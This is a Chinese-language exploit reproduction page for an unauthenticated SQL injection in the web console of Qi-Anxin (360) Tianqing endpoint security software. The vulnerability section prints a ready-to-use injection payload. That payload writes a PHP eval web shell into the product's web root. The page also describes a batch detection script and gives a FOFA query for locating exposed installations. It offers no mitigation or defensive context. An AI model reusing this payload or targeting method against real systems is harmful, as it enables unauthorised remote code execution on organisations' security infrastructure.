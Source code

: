 # 0x00 漏洞介绍
360天擎：一套终端安全管理系统，包括客户端、Web端，漏洞出现在Web端，一个可以未授权访问的API存在SQL注入漏洞，可导致写入Webshell，现在天擎系统归属奇安信，常称为奇安信天擎，官网：https://www.qianxin.com/product/detail/pid/49

# 0x01 复现环境
复现环境：内网环境  
复现版本：None  
环境搭建：  
无

# 0x02 利用条件
无

# 0x03 影响版本
暂无

# 0x04 漏洞复现
如下时写入Webshell的payload
```
/api/dp/rptsvcsyncpoint?ccid=1';create table O(T TEXT);insert into O(T) values('<?php @eval($_POST[1]);?>');copy O(T) to 'C:\Program Files (x86)\360\skylar6\www\1.php';drop table O;--
```
我使用sqlmap进行复现，如下图  
![image](./pic/0.png)

# 0x05 批量脚本
用法：
```
python3 360天擎-越权访问导致数据库信息泄露-Vuln-Batch-Detect.py -h
```
fofa语法：
```
app="360天擎终端安全管理系统"
```
效果如下  
![image](./pic/1.png)

# 0x06 参考链接
https://mp.weixin.qq.com/s/QqlueerhP0uVWWJNULhGvw
